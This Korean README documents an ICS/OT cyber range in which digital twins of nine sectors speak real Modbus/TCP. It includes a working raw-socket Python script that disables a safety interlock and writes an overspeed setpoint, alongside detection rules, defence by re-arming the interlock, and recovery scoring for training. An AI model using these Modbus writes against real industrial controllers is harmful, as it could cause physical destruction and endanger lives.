

# ICS 킬체인 — 실제 Modbus 공방 엔드투엔드

이 플랫폼의 ICS/OT 트윈은 HTTP 목이 아니라 **진짜 Modbus/TCP(502)** 를 말한다.
`mbpoll`·`pymodbus`·`metasploit` 의 modbus 모듈 같은 **실제 공격 도구가 그대로 붙는다**.
공격은 물리 결과(터빈 파괴·급수 오염·탈선 등)로 이어지고, 방어자는 이를 탐지·차단·복구해 점수를 얻는다.
**9개 ICS 섹터** 트윈이 모두 실제 Modbus 를 말하며, 공격→물리→탐지→방어→복구까지 완전 순환한다.

> ⚠️ 의도적으로 취약한 훈련 환경이다. 인터넷에 노출하지 말 것([SECURITY.md](../SECURITY.md)).

## 엔드투엔드 흐름



## 트윈 · 레지스터 맵 (9섹터)

| 트윈 | 홀딩 HR0(명령) | 안전 상한 | 인터록 해제 시 파국 |
|---|---|---|---|
| power_plant | TURBINE_RPM | ≤4500 | 터빈 과속 파괴 |
| water_utility | CHLORINE_PPM | ≤4 | 염소 과투입(공중보건) |
| refinery_plant | COLUMN_PRESSURE | ≤8bar | 증류탑 과압 폭발 |
| lng_terminal | TANK_PRESSURE | ≤200 | LNG 탱크 파열·증기운 |
| smart_factory | ROBOT_SPEED | ≤100 | 로봇 충돌·부상 |
| railway_signaling | TRAIN_SPEED | ≤120 | 탈선·충돌 |
| airport_ot | FUEL_PRESSURE | ≤50 | 급유 과압·화재 |
| datacenter_bms | RACK_TEMP | ≤35℃ | 열 폭주 |
| hospital_ot | INFUSION_RATE | ≤200 | 약물 과다투여 |

공통 텔레메트리(읽기): HR2=ACTUAL(실측 프로세스값), HR4/HR5=DAMAGE(손상%). coil0=SAFETY_INTERLOCK(SIS).

**핵심 코드**: `shared/ics/modbus.py`(프로토콜) · `safety.py`(SIS 판정) · `anomaly.py`(MITRE 분류) ·
`process_sim.py`(연속 물리 + 손상/트립/heal) · **`twin_modbus.py`(재사용 헬퍼 — `attach_modbus_ics(app, cfg)`
한 줄로 신규 트윈 배선, ~15줄)**. power_plant/water_utility 는 인라인, 나머지 7섹터는 헬퍼로 확장.

## 실습 — 실제 Modbus 로 공격

pymodbus·mbpoll 로 실공격한다. 아래는 로우 소켓 예시(의존성 0). 컨테이너 내부망의 `<twin>:502` 로 접근
(예: `pp_twin`, `railway_signaling`).

```python
import socket, struct, time
def modbus(host, pdu, port=502):
    s = socket.create_connection((host, port), timeout=3)
    s.sendall(struct.pack(">HHHB", 1, 0, len(pdu)+1, 1) + pdu)   # MBAP + PDU
    hdr = s.recv(7); ln = struct.unpack(">HHHB", hdr)[2]; body = s.recv(ln-1); s.close()
    return body

H = "pp_twin"
modbus(H, struct.pack(">BHH", 3, 0, 5))                 # FC3 정찰: HR0~4 읽기
modbus(H, struct.pack(">BHH", 5, 0, 0x0000))            # FC5 SIS 인터록 OFF (없으면 트립됨)
modbus(H, struct.pack(">BHH", 6, 0, 6000))             # FC6 과속 명령
for _ in range(20):                                     # 프로세스가 물리적으로 반응(즉시 아님)
    time.sleep(1); print(struct.unpack(">HHH", modbus(H, struct.pack(">BHH", 3, 2, 3))[2:]))
```

관측(실측):

```text
인터록 OFF + 과속 → ACTUAL 3000→3400→3800→4200 (slew 제한, 즉시 아님)
                    TEMP  40→46→60→82           DAMAGE 3→42→100
DAMAGE 100 도달 → asset_compromised(catastrophic_failure)   # 물리 파괴
```

> **핵심**: 값을 '쓰면 즉시'가 아니다. 공격자는 **SIS 를 먼저 무력화**하고 초과를 **지속**해야
> 파괴에 이른다(실제 Aurora/Triton 패턴). 프로세스 응답을 읽고 추론해야 한다.

## 탐지 (Blue / SIEM)

트윈은 각 Modbus 쓰기를 **MITRE ATT&CK for ICS** 로 분류(`anomaly.py`)해 이벤트 metadata(`ics_technique`)
와 SIEM access 로그로 발행한다. SIEM 규칙(`services/siem/detection/rules/ics_layer.yaml`, **9종**)이
매칭하면 `blue_detection_success` 로 점수화된다.

| 공격 | MITRE ICS | SIEM 규칙 |
|---|---|---|
| 보호 레지스터 무인증 쓰기 | T0855 Unauthorized Command | ICS-MODBUS-WRITE-{PP,WU,REF,LNG,FAC,RWY,AIR,DCX,HSP} |
| 운전 밴드 이탈(과속/과투입) | T0836 Modify Parameter | (동일) |
| 안전 인터록 무력화 | T0878 Suppression of Alarms | ICS-SAFETY-INTERLOCK-SUPPRESS |

실측(라이브): railway 공격 → `ICS-MODBUS-WRITE-RWY` → `blue_detection_success(RWY-002)` → Blue +100.

## 방어 · 복구 (Blue)

**방어 — SIS 재무장**: 위험 상태에서 Blue 가 안전 인터록을 재무장(코일 ON)하면 트립이 되살아나
파국을 막고 `blue_block_success` 로 방어 점수를 얻는다. Red 의 `T0878`(무력화)과 대칭 루프.

```python
modbus("pp_twin", struct.pack(">BHH", 5, 0, 0xFF00))    # SAFETY_INTERLOCK ON → 방어
```

**복구 — heal**: 인터록 재무장 + 안전 상태가 유지되면 손상(DAMAGE)이 `heal_rate` 로 회복된다.
손상 자산이 0 으로 회복되면 트윈이 **`asset_recovered`** 를 발행(Blue 복구 크레딧 +50). 파국 상태
고착이 풀려 **같은 트윈으로 공격/방어 재실행 가능**하다(훈련 반복성).

```text
공격(DAMAGE↑) → 확보(재무장+정상값) → DAMAGE heal → 0 도달 → asset_recovered → 재실행 가능
```

## 상황 인식 — Control Tower ICS 자산 상태판

Control Tower(단일 관리 콘솔)가 **SSE 이벤트만으로** 9개 트윈 상태를 색상 추적한다(백엔드 추가 없음):
🟠 공격 중(+MITRE) · 🔴 파괴/침해 · 🔵 방어됨 · 🟢 복구됨. → [role-home/control 캡처](images/control-tower-ics.png)

## 시나리오 (교관)

교관용 훈련 시나리오로 저작·검증돼 있다(P1-3 저작 도구: lint·dry-run·phase-clock·러너 판정):

- `scenarios/single/POWERPLANT-MODBUS-SABOTAGE-01.yaml` — HMI 접근(T0812)→SIS 무력화(T0878)→과속 파괴(T0836)
- `scenarios/single/RAILWAY-MODBUS-SABOTAGE-01.yaml` — 신호 조작→연동 우회→탈선 + **복구 목표**
  (blue_objective `match_event: asset_recovered`)로 **완전 라이프사이클** 명시

## AAR 연동

사후검토 리포트(`/report/aar`, JSON + **PDF**)가 ICS 공방을 종합한다:
- `ics_protocol_attacks`: 프로토콜·레지스터별 공격 총계
- `ics_lifecycle`: **자산별 공격/침해/방어/복구 횟수·MTTR·MITRE 기법** + 총계(침해/복구 자산 수·평균 MTTR)

인시던트·인젝트·무결성 섹션과 함께 훈련 전체를 종합한다([README](../README.md) 참고).
